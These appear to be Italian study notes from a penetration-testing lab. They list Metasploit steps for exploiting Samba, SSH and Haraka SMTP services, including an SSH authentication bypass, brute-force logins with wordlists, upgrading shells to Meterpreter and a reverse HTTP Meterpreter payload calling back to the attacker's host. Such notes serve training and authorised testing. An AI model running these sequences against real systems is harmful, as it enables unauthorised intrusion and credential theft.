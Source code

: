  
## SAMBA 445 
	• nmap -sS -sV 192.218.210.3
	• use exploit/linux/samba/is_known_pipename
	  set RHOST 192.218.210.3
	  check
	  exploit (apre una shell)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		  meterpreter)
	• sessions 2 (entri nel meterpreter)
 	• msfconsole
	• use auxiliary/scanner/smb/smb_version
	  set RHOSTS 10.2.217.132
	  exploit
	• use exploit/multi/samba/usermap_script
	  set RHOSTS 10.2.217.132
	  exploit

	
## SSH 22 
	• nmap -sS -sV 192.51.205.3
	• use auxiliary/scanner/ssh/libssh_auth_bypass
	  set RHOSTS 192.51.205.3
	  set SPAWN_PTY true (permette di fare comandi in piu)
	  exploit (da qui posso fare solo whoami, id, cat /etc/*release)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		meterpreter)
	• sessions 2 (entri nel meterpreter per fare sysinfo)
 	• msfconsole
	  use auxiliary/scanner/ssh/ssh_version
	  set RHOSTS 192.245.211.3
	  exploit (vede la versione)
	• use auxiliary/scanner/ssh/ssh_login
	  set RHOSTS 192.245.211.3
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
	  set STOP_ON_SUCCESS true
	  set VERBOSE true
	  exploit (fa brute force e accede)


	
## SMTP Haraka 
	• nmap -sS -sV 192.3.161.3
	• use exploit/linux/smtp/haraka
	  set SRVPORT 9898 (imposta dove haraka sara in ascolto)
	  set email_to root@email.test (a chi mandare l'email malevolo)
	  set payload linux/x64/meterpreter_reverse_http
	  set rhost 192.150.137.3
	  set LHOST 192.150.137.2
	  exploit
